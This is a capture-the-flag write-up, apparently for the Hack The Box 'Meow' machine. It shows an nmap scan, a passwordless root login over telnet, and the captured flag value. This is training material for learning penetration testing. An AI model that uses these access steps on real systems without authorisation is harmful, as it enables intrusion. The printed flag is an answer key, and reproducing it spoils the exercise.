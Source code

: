 With the given IP

10.129.237.91

What I'll do first is to scan it with nmap to see what ports are open and what services are running.

```bash
nmap -Pn 10.129.237.91
```

And we got the following response.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-30 20:46 -03
Nmap scan report for 10.129.237.91 (10.129.237.91)
Host is up (0.20s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 26.51 seconds
```

With this information we try to connect to the telnet service.

```bash
telnet 10.129.237.91 23
```

And like this we got access to the machine.

```bash
telnet 10.129.237.91 23
Trying 10.129.237.91...
Connected to 10.129.237.91.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
Password: 

Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 30 Jan 2024 11:49:17 PM UTC

  System load:           0.08
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.237.91
  IPv6 address for eth0: dead:beef::250:56ff:feb0:8423

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# 
```

Now we just do a `ls` and there is a `flag.txt` file.
    
```
b40abdfe23665f766f9c61ecba8a4c19
```

And here we go! Machine is pwned! :D

https://www.hackthebox.com/achievement/machine/834305/394